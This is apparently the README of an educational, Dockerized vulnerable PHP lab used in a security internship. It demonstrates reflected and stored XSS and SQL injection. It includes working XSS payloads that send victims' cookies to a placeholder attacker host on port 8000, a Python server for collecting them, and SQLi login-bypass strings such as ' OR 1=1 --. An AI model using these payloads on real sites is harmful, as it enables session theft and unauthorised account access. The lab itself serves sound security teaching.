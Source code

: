 # Vulnerable PHP Application - XSS and SQL Injection

Description

This repository gathers various tools and techniques utilized during a system security internship. It serves as an educational resource to demonstrate common web security vulnerabilities, including Cross-Site Scripting (XSS) and SQL Injection (SQLi). The repository provides a vulnerable PHP application where users can test and understand how these exploits work in a controlled environment.

Features

Hands-on demonstration of web vulnerabilities

Dockerized setup for easy deployment

Practical attack payloads for testing security weaknesses

---

This repository collects tools and methodologies used during a system security internship.

## Analyzed vulnerabilities
- **XSS (Cross-Site Scripting)**
  - Reflected
  - Stored
- **SQL Injection**

## Start the Vulnerable Lab
1. Install Docker for your operating system.
2. Clone or download this repository.
3. Start Docker.
4. Open a command prompt inside the project root directory and execute the following command:
   ```sh
   docker compose up --build
   ```

## Start the Attacker Web Server
To collect stolen cookies, a simple HTTP server is used. Launch it using:
```sh
python -m http.server 8000
```

XSS Attack Payloads

Reflected Cross-Site Scripting (XSS)

This script forces the victim’s browser to send their cookies to an attacker-controlled server:

<script>window.location.replace("http://<attackerIP>:8000/a.html?c=" + document.cookie);</script>

Stored Cross-Site Scripting (XSS)

This method, although noisy, continuously triggers requests by injecting a malicious image tag:
<img src="invalid" onerror=this.src='http://<attackerIP>:8000/' + document.cookie; />

For a more discreet approach use this:
```html
<script>i=document.createElement('img');i.src='http://<attackerIP>:8000/'+document.cookie;document.body.appendChild(i)</script>
```

Basic alert test:
```html
<script>alert(document.cookie)</script>
```

### SQLi Payloads
To gain access to the first account saved in the database:
```sql
' OR 1=1 --
```

To gain access to an account by knowing the username:
```sql
[username]' OR 1=1 --
```

Bypassing authentication using ID-based query:
```sql
id = 100 OR 1=1
```

